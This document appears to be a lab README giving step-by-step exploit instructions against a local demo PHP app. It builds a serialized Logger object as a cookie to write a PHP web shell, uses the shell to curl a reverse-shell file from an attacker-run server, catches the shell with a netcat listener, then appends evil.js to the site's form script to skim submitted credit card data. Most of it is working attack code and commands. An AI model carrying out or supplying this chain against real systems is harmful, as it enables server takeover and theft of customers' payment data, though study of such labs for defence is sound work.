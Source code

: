 # Exploit Steps

First, in the "app" directory run `php -a`

Then run the following commands:

```
include 'logger-class.php';
$logger = new Logger();
$logger->filename = "./shell.php";
$logger->last_log = '<?php system($_GET["cmd"]); ?>';
$serialized = serialize($logger);
$encoded = urlencode($serialized);
echo($encoded);
```

In order, we first include `logger-class.php`. Then we create a new instance of the Logger class and define some properties on that instance. We make the instance's filename `./shell.php`, which is where we will put the payload, and we set `last_log` as some PHP code that will grab whatever is in the `cmd` query parameter and execute as a system command. Next, we serialize the logger instance, we url encode the serialized string to make it safe for putting in our cookie, and then we finally print the resulting string, which is as follows:

`O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D`


Finally, visit your php server and replace the `uinfo` cookie with the encoded string above, or make the following curl request:

```
curl 'http://localhost:8080' -H 'Cookie: uinfo=O%3A6%3A%22Logger%22%3A2%3A%7Bs%3A8%3A%22filename%22%3Bs%3A11%3A%22.%2Fshell.php%22%3Bs%3A8%3A%22last_log%22%3Bs%3A30%3A%22%3C%3Fphp+system%28%24_GET%5B%22cmd%22%5D%29%3B+%3F%3E%22%3B%7D' 
```


Now, visiting `http://localhost:8080/shell.php` and adding a `cmd` query parameter will execute that shell command. For instance, going to `http://localhost:8080/shell.php?cmd=ls` will print the files in the app's current directory

Next, open up `exploit/reverse_shell.php` and update `$ip` to the IP of your host machine. Then, start a server in the `exploit` to upload the file. Here is a function in Bash that creates a simple server:
```
function server() {
        local port="${1:-5000}";
        sleep 1 && open "http://localhost:${port}/" &
        # Set the default Content-Type to `text/plain` instead of `application/octet-stream`
        # And serve everything as UTF-8 (although not technically correct, this doesn’t break anything for binary files)
        python -c $'import SimpleHTTPServer;\nmap = SimpleHTTPServer.SimpleHTTPRequestHandler.extensions_map;\nmap[""] = "text/plain";\nfor key, value in map.items():\n\tmap[key] = value + ";charset=UTF-8";\nSimpleHTTPServer.test();' "$port";
}
```
Then go to `http://localhost:8080/shell.php?cmd=curl%20http://<ip_and_port_of_server>/reverse_shell.php%20%3E%20reverse_shell.php`. This uploads the `reverse_shell.php` file to the app server.

Leave the server running, and in another terminal run `nc -nvl 9002` to set up a listener for our reverse shell, and then go to `http://localhost:8080/reverse_shell.php`. Your listener should connect and you now have a shell on the Docker instance.

Finally, we will inject malicious JavaScript into the page's JavaScript to steal credit cards. In your reverse shell, run `cd /usr/src/myapp/app/assets` and run `curl <ip_and_port_of_server>/evil.js >> form.js`. This appends the contents of evil.js to the app's form.js file.

You can now close the reverse shell and the simple server you had running. To see the fruits of the labor, in the `exploit` directory run `node server.js`. Now, visit whenever the form at localhost:8080 is sumbitted, the node server will print it's contents.

